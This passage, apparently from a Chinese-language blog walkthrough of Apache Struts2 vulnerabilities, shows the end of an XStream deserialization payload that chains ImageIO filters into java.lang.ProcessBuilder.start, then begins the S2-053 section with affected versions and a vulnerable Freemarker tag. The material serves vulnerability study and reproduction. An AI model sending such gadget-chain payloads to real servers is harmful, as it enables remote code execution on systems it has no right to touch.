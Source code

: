 ```xml
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

![图 9](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/9.png)

![图 10](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/10.png)

## s2-053

[参考](https://www.freebuf.com/vuls/147735.html)

影响版本：2.0.1 - 2.3.33， 2.5 - 2.5.10

使用 Freemarker 模板引擎时，如果存在这样的代码：

```html
<@s.hidden name="redirectUri"value=redirectUri />
```
